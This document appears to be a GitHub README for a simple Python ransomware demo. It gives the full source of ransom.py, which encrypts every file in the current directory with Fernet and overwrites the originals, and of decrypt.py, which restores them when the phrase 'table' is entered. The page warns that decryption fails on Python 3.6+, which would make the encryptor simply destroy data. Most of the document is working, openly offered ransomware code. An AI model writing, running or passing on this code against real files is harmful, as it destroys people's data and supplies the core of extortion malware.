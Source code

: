 # File Encryption and Decryption Script Documentation

This documentation provides an overview of two Python scripts designed for encrypting and decrypting files in a directory using the `cryptography` library's `Fernet` module.

---

## IMPORTANT!!!

As of Python 3.6+ the decryption program does NOT work, so use the ransomware at your own risk. It's the equivalent of destroying your files.

## Requirements

- Python 3
- `cryptography` package (Install via `pip install cryptography`)

---

## Encryption Script (`ransom.py`)

The **encryption script** will encrypt all files in the directory except itself, the decryption script, and a key file, which it generates to store the encryption key.

### Script Overview

```python
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Empty list to store files to be encrypted
files = []

# Loop through files in the current directory
for file in os.listdir():
    if file == "ransom.py" or file == "thekey.key" or file == "decrypt.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

# Generate an encryption key
key = Fernet.generate_key()

# Save the key to "thekey.key"
with open("thekey.key", "wb") as thekey:
    thekey.write(key)

# Encrypt each file in the "files" list
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

print("All files in this directory have been encrypted!")
```

### Detailed Breakdown

1. **Import Necessary Modules**
   - `os`: Used to list files in the directory.
   - `Fernet`: Used to create encryption keys and perform encryption operations.

2. **Identify Files for Encryption**
   - The script initializes an empty list `files`.
   - It iterates through all files in the directory, skipping `ransom.py`, `decrypt.py`, and `thekey.key`.
   - Files eligible for encryption are appended to the `files` list.

3. **Generate and Save the Encryption Key**
   - A `Fernet` encryption key is generated.
   - The key is saved to a file named `thekey.key` for later use in decryption.

4. **Encrypt the Files**
   - For each file in `files`:
     - The file's contents are read.
     - The contents are encrypted using the generated key.
     - The encrypted contents are written back to the file, overwriting the original data.

5. **Completion Message**
   - A message is printed indicating that all files have been encrypted.

---

## Decryption Script (`decrypt.py`)

The **decryption script** reverses the encryption process, allowing files to be decrypted using the stored key, provided the user knows the correct secret phrase.

### Script Overview

```python
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Find files in the directory
files = []

for file in os.listdir():
    if file == "ransom.py" or file == "thekey.key" or file == "decrypt.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

# Read the encryption key
with open("thekey.key", "rb") as key:
    secretkey = key.read() 

# Define a secret phrase
secretphrase = "table"

# Prompt user for the secret phrase
user_phrase = input("Enter the secret phrase to decrypt your files: ")

# Check if the provided phrase is correct
if user_phrase == secretphrase:
    for file in files:
        with open(file, "rb") as thefile:
            contents = thefile.read()
        contents_decrypted = Fernet(secretkey).decrypt(contents)
        with open(file, "wb") as thefile:
            thefile.write(contents_decrypted)
        print("Your files are now decrypted.")
else:
    print("Sorry, wrong phrase.")
```

### Detailed Breakdown

1. **Import Necessary Modules**
   - `os`: Used to identify files in the directory.
   - `Fernet`: Used to decrypt the encrypted files.

2. **Identify Files for Decryption**
   - Similar to the encryption script, this script identifies all files in the directory that should be decrypted and adds them to the `files` list.

3. **Retrieve the Encryption Key**
   - The script reads the key from `thekey.key`, which was generated and saved during encryption.

4. **Secret Phrase Verification**
   - A predefined secret phrase (`table`) is set.
   - The script prompts the user to input the secret phrase.
   - If the entered phrase matches, the script proceeds with decryption; otherwise, it displays an error message.

5. **Decrypt the Files**
   - If the secret phrase is correct, the script:
     - Reads the encrypted contents of each file.
     - Decrypts the contents using the key.
     - Writes the decrypted contents back to the file, restoring the original data.

6. **Completion or Error Message**
   - A success message is printed if the decryption is completed.
   - If the secret phrase is incorrect, an error message is shown.

---

## Usage Notes

- **Running the Scripts**:
  - Run `ransom.py` to encrypt files in the current directory.
  - Run `decrypt.py` to decrypt the files, provided the correct secret phrase is entered.
- **Important Security Note**: 
  - DO NOT USE IN IMPORTANT DIRECTORIES